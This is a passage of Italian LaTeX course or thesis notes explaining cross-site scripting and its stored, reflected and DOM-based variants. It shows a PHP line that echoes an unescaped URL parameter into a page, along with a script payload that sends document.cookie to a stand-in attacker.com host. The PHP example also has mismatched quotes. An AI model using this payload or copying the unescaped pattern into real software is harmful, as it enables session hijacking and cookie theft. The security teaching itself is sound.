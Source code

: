 \subsection{Cross site scripting}
Vulnerabilità di tipo Cross site scripting (denominate spesso con l'acronimo XSS, da non confondere con CSS di cascading style sheets) si verificano quando un'applicazione riceve dati di input non fidati e li invia ad un browser senza un'appropriata validazione o escaping. \\
XSS consente ad un attaccante di eseguire scripts sul browser della vittima, i quali possono effettuare l'hijacking della sessione utente, possono recuperare cookie di sessione, possono redirezionare l'utente su siti web malevoli o possono effettuare defacing del sito web. \\
Un esempio di cross site scripting può essere il seguente: 

\begin{lstlisting}[language=PHP]
$page += "<input name='creditcard' type="text" value='" + $_GET["CC"] + "'>";
\end{lstlisting}

Supponendo di avere una pagina che mostra a video il numero di carta di credito di un individuo, ottenuto attraverso i parametri in input dall'URL, l'attaccante potrà semplicemente costruire un URL con un valore del parametro CC modificato e fare in modo che l'utente visiti tale URL per effettuare l'hijacking della sessione utente, come nell'esempio seguente:

\begin{lstlisting}[language=PHP]
'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
\end{lstlisting}

Esistono tre tipologie di cross site scripting:
\begin{itemize}
\item Stored: Il codice viene iniettato nel server in modo permanente, in un database, in un forum, in un commento, ecc. La vittima ottiene lo script malevolo ad ogni visita della pagina.
\item Reflected: Il codice malevolo non viene iniettato nel server ma viene inviato alla vittima attraverso mezzi alternativi, come un email contenente un link. Quando l'utente viene convinto a cliccare su tale link il codice viene eseguito.
\item DOM based: Un payload malevolo viene eseguito come risultato della modifica del DOM\footnote{Document Object Model} del browser dell'utente. La risposta HTTP in questo caso non cambia ma il codice contenuto nella pagina viene eseguito in modo diverso a causa delle modifiche effettuate al DOM.\\
E' diverso da stored e reflected XSS poichè in questo caso il payload melevolo non è nella pagina di risposta del server ad una richiesta.
\end{itemize}

